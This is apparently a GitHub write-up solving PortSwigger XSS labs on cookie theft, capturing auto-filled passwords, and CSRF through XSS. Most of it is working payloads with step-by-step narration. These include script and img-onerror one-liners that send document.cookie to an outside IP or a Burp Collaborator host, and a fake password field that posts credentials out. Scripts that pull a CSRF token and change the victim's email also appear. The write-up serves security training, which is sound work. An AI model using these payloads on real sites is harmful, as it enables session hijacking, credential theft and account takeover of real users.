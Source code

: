 ### Exploiting cross-site scripting vulnerabilities

To demonstrate XSS vulnerability, a common method is to create a popup using the `alert()` function. This isn't because XSS is related to popups; it's a way to show that you can run arbitrary JavaScript on a specific domain. Some may use `alert(document.domain)` to clarify the executing domain.

Sometimes, it's necessary to go beyond proof and provide a complete exploit to illustrate the severity of an XSS vulnerability. In this section, we'll delve into three widely used and potent methods to exploit an XSS vulnerability.

### Exploiting cross-site scripting to steal cookies

Exploiting XSS to steal cookies is a traditional method. Since many web apps use cookies for session management, an attacker can use XSS to send the victim's cookies to their domain and impersonate the victim by injecting these cookies into the browser.

However, this approach has limitations:

- The victim may not be logged in.
- Some apps protect cookies using the `HttpOnly` flag, making them inaccessible to JavaScript.
- Additional security measures, like locking sessions to the user's IP address, can thwart attacks.
- The session may expire before the attacker can hijack it.

## Steal Cookies Scripts

1. One-Liner
   
   ```html
   <script>var i=new Image;i.src="http://192.168.0.18:8888/?"+document.cookie;</script>
   ```

2. `<img>` Tag Instead of `<script>` Tags
   
   ```js
   <img src=x onerror=this.src='http://192.168.0.18:8888/?'+document.cookie;>
   ```

3. `<img>` Tag and Without the Infinite Loop
   
   ```html
   <img src=x onerror="this.src='http://192.168.0.18:8888/?'+document.cookie; this.removeAttribute('onerror');">
   ```

4. Using fetch
   
   ```html
   <script>
   fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
   method: 'POST',
   mode: 'no-cors',
   body:document.cookie
   });
   </script>
   ```

#### EX: Exploiting cross-site scripting to steal cookies

First, test with this `<img src="1" onerror="alert()">` to know where the payload stored or if there are any changes on it

![Screenshot from 2023-09-20 05-31-56](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/2708edd9-bf68-4ff7-b914-f85f66388646)
And It's work then let's try to steal any cookie with this vulnerability in this lab we will use burp collaborator

![Screenshot from 2023-09-20 05-32-06](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa21d0e5-841f-43b9-9e61-a76647c58936)
And past the burp collaborator url in this script

```js
<img src=x onerror=this.src='http://burp-collaborator-url/?'+document.cookie;>
```

![Screenshot from 2023-09-20 05-42-00](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/4be6ef6d-3eca-414a-b914-d7616539ed2b)
And post it 

![Screenshot from 2023-09-20 05-42-40](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/6a713b19-f1e2-49c6-8bd0-8e983472029a)
we got an session cookie of somone then let's copy it

![Screenshot from 2023-09-20 05-44-07](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/df63f3e9-4bdd-493c-bcc6-85f2aa1ba32b)
Capture any page request and change his session with session that we stealed it 

![Screenshot from 2023-09-20 05-46-58](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/97aa6ebc-9314-4b78-8241-8e564441b5b5)
Intercept off

![Screenshot from 2023-09-20 05-47-17](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/c997b61e-a3dc-468a-a62e-4c3e517790ba)
And lab solved

![Screenshot from 2023-09-20 05-47-26](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a886cd1d-4d50-4baa-a039-4a4bfb632821)
we can access admin panel with this cookie

![Screenshot from 2023-09-20 05-49-43](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/1e0c3dfb-bd92-423f-92cb-0cbf85455383)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_cross_site_scripting_to_steal_cookies.py)

### Exploiting cross-site scripting to capture passwords

Today, with password managers auto-filling, you can create a password input, extract the auto-filled password, and send it to your domain. This method mitigates cookie theft issues and can access other accounts with reused passwords.

The main drawback is that it relies on users having a password manager with auto-fill. If a user doesn't have a saved password, you could resort to on-site phishing, but it's not as effective.

#### EX: Exploiting cross-site scripting to capture passwords

First, test with this `<img src="1" onerror="alert()">` to know where the payload stored or if there are any changes on it

![Screenshot from 20230920 053156](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/2708edd9-bf68-4ff7-b914-f85f66388646) And It's work then let's try to steal any cookie with this vulnerability in this lab we will use burp collaborator

![Screenshot from 20230920 053206](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa21d0e5-841f-43b9-9e61-a76647c58936) And past the burp collaborator url in this script

```html
<input type=text name=username id="username" placeholder="user name">
<input type=password name=password placeholder="password" onchange="if(this.value.length)fetch('https:/burp-collaborator-url',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value}
);">
```

![Screenshot from 2023-09-20 09-37-41](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/989c214e-a305-4bdb-9adc-36526197a883)

And post it

![Screenshot from 2023-09-20 07-18-46](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/81b27e01-afca-4701-82a1-1cc4efcec0e5)
we got an username and passworf of admin then let's login with it

![Screenshot from 2023-09-20 07-19-52](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/999d5de1-94be-4c5a-a4ca-fc93ded2872c)
Done

![Screenshot from 2023-09-20 07-20-46](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/bc34a9c7-e1e6-4856-a1f6-a7259a9d2cfd)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_cross_site_scripting_to_capture_passwords.py)

### Exploiting cross-site scripting to perform CSRF

Anything a legitimate user can do on a web site, you can probably do too with XSS. Depending on the site you're targeting, you might be able to make a victim send a message, accept a friend request, commit a backdoor to a source code repository, or transfer some Bitcoin. 

With XSS, you can exploit sites that let users change email addresses without password confirmation. Exploiting this, you can alter the victim's email to yours and then initiate a password reset, gaining access to the account.

This exploit is often called CSRF, though it can exist independently. Standalone CSRF can be mitigated with anti-CSRF tokens, but these won't safeguard against XSS vulnerabilities simultaneously.

#### EX: Exploiting XSS to perform CSRF

After login there are page and in this page you can change your emal wihtout password

then let's change our email and capture this request

![Screenshot from 2023-08-14 11-35-17](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/a1e0d142-9da1-41c9-a6ed-d33a1c209b87)

create csrf payload with burp

![Screenshot from 2023-09-20 09-53-45](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/1c97cd63-d5db-43a7-b368-2a012ca0cc3f)
and test it in browser to see if this page vuln with csrf

![Screenshot from 2023-09-20 09-54-06](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/5cd8ef95-3012-417d-beee-e93d00af23ff)
Our emal changed then it's vuln with csrf but there are a csrf tooken then we need xss to perform this vulnerability

![Screenshot from 2023-09-20 09-54-19](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/fa5c8835-346c-4208-9e5a-3287dbbf3c44)

and there are another page vuln with xss

![Screenshot from 2023-09-20 09-57-13](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/7e52246b-ccca-4c53-b23d-c8fdf0ecc9be)
![Screenshot from 2023-09-20 09-57-27](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/b9923e87-0ab1-45c6-9247-5e5b694e74c2)

Then lets create payload with this into we can create two palyoads:

First payload:

```html
<script>
fetch('/my-account')
  .then(r => r.text())
  .then(t => t.match(/name="csrf" value="(\w+)"/))
  .then(m => m && fetch('/my-account/change-email', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: `csrf=${m[1]}&email=test@test.com` }))
  .then(r => r.ok ? console.log('Email changed successfully.') : console.error('Email change failed with status ' + r.status))
  .catch(e => console.error('Error:', e));
</script>
```

Second payload:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![Screenshot from 2023-09-20 11-35-59](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/236a06ce-7095-4b6e-9538-8a87cdb052db)![Screenshot from 2023-09-20 11-18-43](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/ef43fa16-6cbf-4d55-89ef-84e747cd30f3)
It's work

![Screenshot from 2023-09-20 11-18-51](https://github.com/MohammedHawary/Web-Penetration/assets/94152045/f884f9ee-21eb-4067-91ac-c703023ef1b5)

> [**Python Script for this lab**](https://github.com/MohammedHawary/Solve-Portswigger-Labs-With_py/blob/main/XSS/Exploiting_XSS_to_perform_CSRF.py)


